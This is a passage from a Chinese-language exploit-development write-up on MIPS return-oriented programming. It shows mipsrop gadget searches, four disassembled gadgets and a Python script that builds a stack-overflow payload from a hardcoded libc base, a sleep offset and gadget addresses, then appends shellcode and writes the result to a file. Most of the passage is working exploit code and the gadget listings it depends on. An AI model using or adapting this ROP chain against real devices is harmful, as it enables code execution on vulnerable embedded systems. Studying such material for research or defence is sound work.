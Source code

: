 他是先fork了一个子进程，在子进程中执行命令，然而通过user模式模拟的时候，无法实现。所以我就想了第二个方式，运用<a>上一篇文章</a>的内容，也就是跳转直行shellcode的方式去执行。

二.执行shellcode

1.寻找gadget

我们分别用`mipsrop.find("li $a0,1")`,`mipsrop.tail()`,`mipsrop.stackfinder()`,`mipsrop.find("mov $t9,$a1")`来寻找我们的gadget，其实有很多组合，我选取了其中之一：

```
#gadget1
.text:00057E50                 li      $a0, 1
.text:00057E54                 move    $t9, $s1
.text:00057E58                 jalr    $t9 ; sub_57B50
.text:00057E5C                 ori     $a1, $s0, 2
#gadget2
.text:0003E524                 move    $t9, $s2
.text:0003E528                 lw      $ra, 0x28+var_4($sp)
.text:0003E52C                 lw      $s2, 0x28+var_8($sp)
.text:0003E530                 lw      $s1, 0x28+var_C($sp)
.text:0003E534                 lw      $s0, 0x28+var_10($sp)
.text:0003E538                 jr      $t9 ; xdr_opaque_auth
.text:0003E53C                 addiu   $sp, 0x28
#gadget3
.text:0000B814                 addiu   $a1, $sp, 0x168+var_150
.text:0000B818                 move    $t9, $s1
.text:0000B81C                 jalr    $t9 ; stat64
.text:0000B820                 addiu   $a0, (off_5C144 - 0x60000)
#gadget4
.text:00037E6C                 move    $t9, $a1
.text:00037E70                 addiu   $a0, 0x4C  # 'L'
.text:00037E74                 jr      $t9
.text:00037E78                 move    $a1, $a2
```

2.编写exp并测试验证<br>
我们最终编写的exp如下所示：

```
libc_base = 0x76738000
sleep_offset = 0x56BD0
gadget1 = 0x57E50   
gadget2 = 0x0003E524
gadget3 = 0x0000B814
gadget4 = 0x00037E6C
data = "a"*1003
data += "aaaa" #s0
data += p32(libc_base+gadget2) #s1
data += p32(libc_base+sleep_offset) #s2
data += "aaaa" #s3
data += "aaaa" #s4
data += "aaaa" #s5
data += "aaaa" #s6
data += "aaaa" #s7
data += "aaaa" #gp
data += p32(libc_base+gadget1) #ra
data += "b"*0x18
data += "bbbb" #s0
data += p32(libc_base+gadget4) #s1
data += "bbbb" #s2
data += p32(libc_base+gadget3) #ra
data += "c"*0x18
data += shellcode 
f=open("content","wb")
f.write(data)
f.close()
```